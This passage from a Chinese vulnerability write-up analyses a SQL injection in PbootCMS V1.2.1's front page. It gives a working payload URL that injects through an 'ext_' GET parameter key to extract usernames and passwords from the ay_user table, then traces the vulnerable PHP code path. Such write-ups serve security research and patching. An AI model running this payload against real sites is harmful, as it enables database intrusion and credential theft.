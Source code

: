 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入.

0X01.3 前台首页注入
-------------------

0x08.3.1 漏洞演示 url:

    http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId37.png)

### 0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\ParserController.php
方法：index(

    // 首页 骚操作 注入
        // parserAfter -> parserSpecifyListLabel
        public function index()
        {
            $content = parent::parser('index.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserAfter()

    跟进 $content = $this->parser->parserAfter($content); 这个方法
    // 解析全局后置公共标签
        public function parserAfter($content)
        {
            ...
            $content = $this->parserSpecifyListLabel($content); // 指定列表
            return $content;
        }

方法：parserSpecifyListLabel(

    进入以后 查看调用了 $content = $this->parserSpecifyListLabel($content); 方法
    // 解析指定分类列表标签
    public function parserSpecifyListLabel($content)
    {
      ...
      // 数据筛选 骚操作注入
      $where2 = array();
      foreach ($_GET as $key => $value) {
        if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
          $where2[$key] = get($key);
        }
      }
      ...
      // 读取数据
      if ($page) {
        $data = $this->model->getList($scode, $num, $order, $where1, $where2);
      } else {
        $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
      }
    }
